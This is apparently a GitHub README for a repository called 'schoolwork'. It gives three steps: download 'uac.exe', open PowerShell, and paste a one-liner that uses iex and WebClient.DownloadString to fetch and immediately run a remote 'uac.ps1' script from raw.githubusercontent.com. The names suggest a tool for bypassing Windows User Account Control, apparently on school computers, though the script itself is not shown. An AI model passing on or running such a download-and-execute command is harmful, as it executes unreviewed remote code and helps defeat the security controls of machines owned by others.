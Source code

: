 # schoolwork

1: Download uac.exe and place it in Downloads
2: open Powershell
3: input the command below
## iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/poorkid8921/schoolwork/refs/heads/main/uac.ps1'))
